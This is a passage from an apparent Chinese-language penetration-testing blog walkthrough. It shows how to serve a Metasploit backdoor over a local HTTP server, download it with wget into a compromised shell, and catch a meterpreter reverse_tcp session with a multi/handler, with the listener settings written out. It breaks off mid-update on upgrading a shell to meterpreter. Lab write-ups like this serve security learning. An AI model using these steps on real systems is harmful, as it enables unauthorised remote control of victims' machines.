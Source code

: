 然后在本地通过

```bash
python -m http.server
```

开启一个小型的server，把后门文件放在这个server的根目录：

![Screen Shot 2018-10-18 at 2.23.06 PM.png]({{ site.url }}/images/metasploit/722E77E8E33948482A7CBBBCEF56F1D5.png)

接着在之前获取的shell中用wget下载后门文件：

![Screen Shot 2018-10-18 at 2.20.49 PM.png]({{ site.url }}/images/metasploit/9F9ADC3395E447C154F8437C7653E53A.png)

我们在server上也能看到日志：

![Screen Shot 2018-10-18 at 2.22.12 PM.png]({{ site.url }}/images/metasploit/B0F6E1A1B3350385767A15056C691283.png)

（后来想了一下，不要像我上面这样用`sudo`开80端口，就用一般的端口就好了，否则如果被目标机器那边的高手反取自己的root，就得不偿失了。）

为使msf与目标通信，我们再打开一个msfconsole运行一个渗透模块控制程序（handler）。其相关设置要和之前生成`backdoor.elf`时的配置相同：

```
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > set LHOST 172.16.56.1
LHOST => 172.16.56.1
```

配置完毕后运行，开启监听：

![Screen Shot 2018-10-18 at 2.30.09 PM.png]({{ site.url }}/images/metasploit/20FBE4FC600B3925183A7C2585364BF0.png)

然后在刚才的shell中运行后门：

![Screen Shot 2018-10-18 at 2.30.49 PM.png]({{ site.url }}/images/metasploit/CA4D0B5321EC0AF36CA4357B24D89F72.png)

这时切换到监听的终端：

![Screen Shot 2018-10-18 at 2.31.39 PM.png]({{ site.url }}/images/metasploit/75B37ED478F34AC218E5BB1C26D40AD8.png)

我们拥有了一个meterpreter！

---

**更新**

后来发现，其实不需要这么麻烦，直接将shell提升为meterpreter即可：

首先`exploit -z`，即不要与新session交互：

![Screen Shot 2018-10-19 at 10.16.26 AM.png]({{ site.url }}/images/metasploit/B716DFE1081A458A584F71F601B17A1F.png)

然后直接使用命令提升shell：
